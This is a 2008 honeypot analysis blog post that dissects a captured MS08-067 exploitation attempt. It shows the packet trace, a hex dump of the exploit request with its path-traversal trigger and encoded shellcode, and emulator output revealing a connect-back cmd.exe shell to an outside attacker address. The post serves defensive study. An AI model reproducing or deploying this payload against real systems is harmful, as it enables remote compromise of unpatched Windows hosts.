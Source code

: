 ```yaml
---
title: "MS08-067 exploitation in the wild"
authors: ["Tillmann Werner"]
date: "2008-11-04"
categories: 
  - "analysis"
---
```


(This article was originally published at [http://honeytrap.mwcollect.org/msexploit](http://honeytrap.mwcollect.org/msexploit).)

If you followed IT security related blogs or mailinglists lately, you are aware that a critical [server service vulnerability](http://www.microsoft.com/technet/security/bulletin/ms08-067.mspx) in Microsoft operating systems was published recently. I'm not going to talk about the details here, there are great resources available [elsewhere](http://www.dontstuffbeansupyournose.com/?p=35) (and the "_reversing the ms08-067 patch_" article isn't the only advice about exploiting holes you get on that page).

OK, what have we got this time? One of our [honeytrap](http://honeytrap.mwcollect.org) sensors caught an MS08-067 exploitation attempt today which we take as an example to show how to perform a quick analysis and check what it does. If you want to play along, get the (sanitized) pcap from [here](http://honeytrap.mwcollect.org/data/ms08-067.pcap).

Now the first thing we would normally do is take a look at the packet trace. [Some people](http://wikipedia.org/wiki/Chuck_Norris) are said to be able to decode hex SMB messages in their head - as we aren't one of those, we might prefer the amazing [wireshark](http://www.wireshark.org/) (or tshark for the command line guys) that does the decoding for us. Here's the list of packets (shortened and wrapped):

```
1 A -> V TCP inovaport5 > microsoft-ds [SYN] Seq=0 Win=65535 Len=0 MSS=1460  
2 V -> A TCP microsoft-ds > inovaport5 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 MSS=1460  
3 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1 Ack=1 Win=65535 Len=0  
4 A -> V SMB Negotiate Protocol Request  
5 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1 Ack=138 Win=5840 Len=0  
6 V -> A SMB Negotiate Protocol Response  
7 A -> V SMB Session Setup AndX Request, NTLMSSP_NEGOTIATE  
8 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=184 Ack=408 Win=6432 Len=0  
9 V -> A SMB Session Setup AndX Response, NTLMSSP_CHALLENGE,  
Error: STATUS_MORE_PROCESSING_REQUIRED  
10 A -> V SMB Session Setup AndX Request, NTLMSSP_AUTH, User: \  
11 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=588 Ack=706 Win=7504 Len=0  
12 V -> A SMB Session Setup AndX Response  
13 A -> V SMB Tree Connect AndX Request, Path: \\192.168.111.11\IPC$  
14 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=772 Ack=804 Win=7504 Len=0  
15 V -> A SMB Tree Connect AndX Response  
16 A -> V SMB NT Create AndX Request, Path: \browser  
17 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=832 Ack=910 Win=7504 Len=0  
18 V -> A SMB NT Create AndX Response, FID: 0x4008  
19 A -> V DCERPC Bind: call_id: 1 SRVSVC V3.0  
20 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=971 Ack=1070 Win=7504 Len=0  
21 V -> A DCERPC Bind_ack: call_id: 1 accept max_xmit: 4280 max_recv: 4280  
22 A -> V SRVSVC NetPathCanonicalize request  
23 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1099 Ack=1642 Win=8580 Len=0  
24 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
25 A -> V SRVSVC NetPathCanonicalize request  
26 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1199 Ack=1894 Win=8580 Len=0  
27 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
28 A -> V SMB Close Request, FID: 0x4008  
29 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1299 Ack=1939 Win=8580 Len=0  
30 V -> A SMB Close Response, FID: 0x4008  
31 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1939 Ack=1338 Win=64198 Len=0  
32 V -> A TCP microsoft-ds > inovaport5 [FIN, ACK] Seq=1338 Ack=1939 Win=8580 Len=0  
33 A -> V TCP inovaport5 > microsoft-ds [FIN, ACK] Seq=1939 Ack=1339 Win=64198 Len=0  
34 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1339 Ack=1940 Win=8580 Len=0  
```

Allright, packet 19 contains a bind call for the `srvsvc` API that contains the vulnerable `NetPathCanonicalize` function which gets called for the first time in packet 22 and contains the following payload:

```
00000000 00 00 00 00 cf 00 00 00 00 00 00 00 cf 00 00 00 |................|  
00000010 5c 00 41 00 5c 00 2e 00 2e 00 5c 00 2e 00 2e 00 |\.A.\.....\.....|  
00000020 5c 00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |\...............|  
00000030 90 90 2b c9 83 e9 b8 d9 ee d9 74 24 f4 5b 81 73 |..+.......t$.[.s|  
00000040 13 ba 1a cd 77 83 eb fc e2 f4 46 70 26 3a 52 e3 |....w.....Fp&:R.|  
00000050 32 88 45 7a 46 1b 9e 3e 46 32 86 91 b1 72 c2 1b |2.EzF..>F2...r..|  
00000060 22 fc f5 02 46 28 9a 1b 26 3e 31 2e 46 76 54 2b |"...F(..&>1.FvT+|  
00000070 0d ee 16 9e 0d 03 bd db 07 7a bb d8 26 83 81 4e |.........z..&..N|  
00000080 e9 5f cf ff 46 28 9e 1b 26 11 31 16 86 fc e5 06 |._..F(..&.1.....|  
00000090 cc 9c b9 36 46 fe d6 3e d1 16 79 2b 16 13 31 59 |...6F..>..y+..1Y|  
000000a0 fd fc fa 16 46 07 a6 b7 46 37 b2 44 a5 f9 f4 14 |....F...F7.D....|  
000000b0 21 27 45 cc ab 24 dc 72 fe 45 d2 6d be 45 e5 4e |!'E..$.r.E.m.E.N|  
000000c0 32 a7 d2 d1 20 8b 81 4a 32 a1 e5 93 28 11 3b f7 |2... ..J2...(.;.|  
000000d0 c5 75 ef 70 cf 88 6a 72 14 7e 4f b7 9a 88 6c 49 |.u.p..jr.~O...lI|  
000000e0 9e 24 e9 59 9e 34 e9 e5 1d 1f 87 c0 5e 35 dc 72 |.$.Y.4......^5.r|  
000000f0 de e4 dc 49 44 96 2f 72 21 8e 10 7a 9a 88 6c 70 |...ID./r!..z..lp|  
00000100 dd 26 ef e5 1d 11 d0 7e ab 1f d9 77 a7 27 e3 33 |.&.....~...w.'.3|  
00000110 01 fe 5d 70 89 fe 58 2b 0d 84 10 8f 44 8a 44 58 |..]p..X+....D.DX|  
00000120 e0 89 f8 36 40 0d 82 b1 66 dc d2 68 33 c4 ac e5 |...6@...f..h3...|  
00000130 b8 5f 45 cc 96 20 e8 4b 9c 26 d0 1b 9c 26 ef 4b |._E.. .K.&...&.K|  
00000140 32 a7 d2 b7 14 72 74 49 32 a1 d0 e5 32 40 45 ca |2....rtI2...2@E.|  
00000150 a5 90 c3 dc b4 88 cf 1e 32 a1 45 6d 31 88 6a 72 |........2.Em1.jr|  
00000160 3d fd be 45 9e 88 6c e5 1d 77 41 41 41 41 41 41 |=..E..l..wAAAAAA|  
00000170 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000180 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000190 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
000001a0 41 41 41 41 41 41 41 41 41 41 cc 41 00 00 00 00 |AAAAAAAAAA.A....|  
000001b0 01 00 00 00 02 00 00 00 00 00 00 00 02 00 00 00 |................|  
000001c0 5c 00 00 00 01 00 00 00 01 00 00 00 |\...........|  
```

Ah, there is the `\..\..` pattern at offset 0x14 that triggers the vulnerability. And hey, there seems to be some shellcode right behind it. Allright, as usual, we get our copy of [libemu](http://libemu.mwcollect.org)'s `sctest` utility out and feed it with the packet payload:

```
$ /opt/libemu/bin/sctest -s 169762 -gS < payload  
verbose = 0  
success offset = 0x00000032  
hooked ExitProcess  
hooked ExitThread  
stepcount 169762  
HMODULE LoadLibraryA (  
LPCTSTR lpFileName = 0x0012fe88 =>  
= "ws2_32";  
) = 0x71a10000;  
int WSAStartup (  
WORD wVersionRequested = 2;  
LPWSADATA lpWSAData = 1244284;  
) = 0;  
SOCKET WSASocket (  
int af = 2;  
int type = 1;  
int protocol = 0;  
LPWSAPROTOCOL_INFO lpProtocolInfo = 0;  
GROUP g = 0;  
DWORD dwFlags = 0;  
) = 66;  
int connect (  
SOCKET s = 66;  
struct sockaddr_in * name = 0x0012fe74 =>  
struct = {  
short sin_family = 2;  
unsigned short sin_port = 37651 (port=5011);  
struct in_addr sin_addr = {  
unsigned long s_addr = 1116985917 (host=61.218.147.66);  
};  
char sin_zero = " ";  
};  
int namelen = 16;  
) = 0;  
BOOL CreateProcess (  
LPCWSTR pszImageName = 0x00000000 =>  
= "gby hand;  
LPCWSTR pszCmdLine = 0x0012fe68 =>  
= "cmd";  
LPSECURITY_ATTRIBUTES psaProcess = 0x00000000 =>  
none;  
LPSECURITY_ATTRIBUTES psaThread = 0x00000000 =>  
none;  
BOOL fInheritHandles = 1;  
DWORD fdwCreate = 0;  
LPVOID pvEnvironment = 0x00000000 =>  
none;  
LPWSTR pszCurDir = 0x00000000 =>  
none;  
struct LPSTARTUPINFOW psiStartInfo = 0x0012fe14 =>  
struct = {  
DWORD cb = 68;  
LPTSTR lpReserved = 0;  
LPTSTR lpDesktop = 0;  
LPTSTR lpTitle = 0;  
DWORD dwX = 0;  
DWORD dwY = 0;  
DWORD dwXSize = 0;  
DWORD dwYSize = 0;  
DWORD dwXCountChars = 0;  
DWORD dwYCountChars = 0;  
DWORD dwFillAttribute = 0;  
DWORD dwFlags = 257;  
WORD wShowWindow = 0;  
WORD cbReserved2 = 0;  
LPBYTE lpReserved2 = 0;  
HANDLE hStdInput = 66;  
HANDLE hStdOutput = 66;  
HANDLE hStdError = 66;  
};  
struct PROCESS_INFORMATION pProcInfo = 0x0052f74c =>  
struct = {  
HANDLE hProcess = 4711;  
HANDLE hThread = 4712;  
DWORD dwProcessId = 4712;  
DWORD dwThreadId = 4714;  
};  
) = -1;  
DWORD WaitForSingleObject (  
HANDLE hHandle = 4712;  
DWORD dwMilliseconds = -1;  
) = 0;  
int closesocket (  
SOCKET s = 66;  
) = 0;  
LPTOP_LEVEL_EXCEPTION_FILTER SetUnhandledExceptionFilter (  
LPTOP_LEVEL_EXCEPTION_FILTER lpTopLevelExceptionFilter = 0x7c800000 =>  
none;  
) = 0x7c81cdda;  
```  

There we are. It's a connectback shell which tries to reach 61.218.147.66 (actually the attacking host) at port 5011/tcp and binds the socket to a cmd.exe. This is typical bot behavior, so what we see here is most likely a spreading piece of malware. Unfortunately we've been to slow and the port was already closed, so we didn't manage to catch a sample...
